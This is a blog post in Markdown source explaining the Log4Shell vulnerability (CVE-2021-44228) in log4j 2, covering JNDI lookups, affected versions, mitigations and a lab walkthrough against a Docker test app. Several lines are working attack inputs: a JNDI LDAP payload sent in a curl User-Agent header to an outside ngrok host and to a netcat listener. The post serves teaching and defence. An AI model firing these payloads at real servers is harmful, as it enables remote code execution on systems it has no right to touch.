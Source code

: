```yaml
---
title: 'Play with log4shell; just for fun.'
date: 2021-12-12
author: 'John Stilia'
description: 'Log4Shell: RCE 0-day exploit in log4j 2, a Java logging package'
categories: [Cyber Security]
tags: [Java, 0-day, RCE, log4j, CVE-2021-44228, CVE]

resources:
  - name: featured-image
    src: log4jimage.jpg
  - name: featured-image-preview
    src: log4jimage.jpg

draft: false
lightgallery: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  auto: false
comment:
  enable: true
---
```


Log4Shell: RCE 0-day exploit in log4j 2, a Java logging package

<!--more-->

{{< admonition danger>}}
For educational purposes only. Please do not use it for illegal purposes.

I am not a Java Developer, and I am not responsible for any damage caused by this code.

This is a proof of concept.
{{< /admonition >}}

A 0-day exploit in the popular Java logging library log4j (version 2) resulted in Remote Code Execution (RCE) by logging a particular string.
The impact of this vulnerability is quite severe. It is called "Log4Shell" for short. Considering how widespread this library is, this impact can result in complete server control.

The initial mention of the vulnerability was made by [@P0rZ9](https://twitter.com/P0rZ9) on [Twitter](https://twitter.com/P0rZ9/status/1468949890571337731).

# What is JNDI?

The Java Naming and Directory Interface is a Java API for a directory service that allows Java software clients to discover and look up data and resources via a name.
Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation

# ${jndi:ldap://example.com/a}

Log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) in the form `${prefix:name}` where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) where name should be evaluated.
For example, `${java:version}` is the current running version of Java.
LOG4J2-313 added a jndi Lookup as follows: `“The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”`
With a `:` present in the key, as in `${jndi:ldap://example.com/a}` there’s no prefix and the LDAP server is queried for the object. And these Lookups can be used in both the configuration of Log4j as well as when lines are logged.

# Who is Impacted

Anybody using Apache Struts is likely vulnerable. In particular, any Log4J version prior to v2.15.0 is affected by this vulnerability.
In addition, the version 1 branch of Log4J is vulnerable to other RCE attacks and should be updated.

Many companies have been impacted, including big names such as Apple, Amazon, Twitter, and Tesla.
Here is a comprehensive list of impacted companies as of the time of the vulnerability release. [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface#the-list)

## Affected Apache log4j2 versions​

2.0 <= Apache log4j <= 2.14.1

## Permanent Mitigation​

Version 2.15.0 of log4j has been released without the vulnerability. log4j-core.jar is available on Maven Central here, with [release notes] and [log4j security announcements](https://logging.apache.org/log4j/2.x/security.html).

## Temporary Mitigation

As per the discussion at [HackerNews](https://news.ycombinator.com/item?id=29507263) there are few ways to mitigate this vulnerability temporarily.
{{< admonition note>}}
If you are using a version older than 2.10.0 and cannot upgrade,
your mitigation choices are:

- Modify every logging pattern layout to say %m{nolookups}
  instead of %m in your logging config files,
  see details at <https://issues.apache.org/jira/browse/LOG4J2-2109>

or

- Substitute a non-vulnerable or empty implementation of the
  class org.apache.logging.log4j.core.lookup.JndiLookup,
  in a way that your classloader uses your replacement instead
  of the vulnerable version of the class.
  Refer to your application's or stack's classloading
  documentation to understand this behaviour.
  {{< /admonition >}}

# Digging deeper

The Java Naming and Directory Interface (JNDI) is a Java API for a directory service that allows you to interface with LDAP or DNS to look up data and resources. Unfortunately, one of the data types that can be returned is a URI pointing to a Java class — and if you load an untrusted Java class, then you’re unwittingly executing someone else’s code.

Even logging a message like the following can trigger a remote LDAP call, causing a criminal Java class to be instantiated.

`log.info("this is a security nightmare! {}", userInput);`

A real-world example of this same issue would be:

`log.info("Request User-Agent: {}", userAgent);`

A curl request to a remote server would look like this:

`curl -H 'User-Agent: ${jndi:ldap://ee32-de2f-71a.ngrok.io:8888/a}' https://vurnable-host.com/`

Where `ee32-de2f-71a.ngrok.io:8888` could be a netcat listener running.

As seen on [www.fastly.com](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j/)
{{< figure src="https://raw.githubusercontent.com/stiliajohny/stiliajohny.github.io/master/content/posts/play-with-log4shell-just-for-fun/log4j-2.png" title="How the attack works" >}}

# Fun time, exploit all the things

- Head to [leonjza/log4jpwn](https://github.com/leonjza/log4jpwn)
- After cloning the repo, run the following command:

  `docker build -t log4jpwn .` # This will build a docker image from the current directory.

- Run the docker image:

  `docker run --rm -p5555:8080 log4jpwn`

- start a netcat listener on port 8888

  `nc -lnvp 8888`

- Get your docker interface host ip address:

  `ip a s docker0 | grep inet | awk '{print $2}' | cut -d/ -f1`
  {{< admonition tip >}}
  That would work in Linux and macOS, but not windows.
  Replace the `docker0` with your docker interface name.
  {{< /admonition >}}

- Exploit the _log4j_ vulnerability.
  `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:5555`
  We can clearly see the log4j library attempted a connection on the netcat listener.
  {{< figure src="https://raw.githubusercontent.com/stiliajohny/stiliajohny.github.io/master/content/posts/play-with-log4shell-just-for-fun/log4j-1.png" >}}

Here we can see the vulnerable library did a callout to the netcat listener. This could be used for all short of attacks.
For more info, look at:

- <https://github.com/xiajun325/apache-log4j-rce-poc>
- <https://www.youtube.com/watch?v=7qoPDq41xhQ&list=TLPQMTIxMjIwMjFkNI5H5Sjm6w>

# References

- <https://www.lunasec.io/docs/blog/log4j-zero-day/>
- <https://github.com/leonjza/log4jpwn>
- <https://github.com/YfryTchsGD/Log4jAttackSurface>
- <https://logging.apache.org/log4j/2.x/security.html>
- <https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j>
- <https://www.youtube.com/watch?v=7qoPDq41xhQ&list=TLPQMTIxMjIwMjFkNI5H5Sjm6w>
- <https://github.com/xiajun325/apache-log4j-rce-poc.git>
- <https://github.com/mbechler/marshalsec.git>
- <https://logging.apache.org/log4j/2.x/manual/lookups.html>
- <https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution>
- <https://issues.apache.org/jira/browse/LOG4J2-313>
- <https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/>
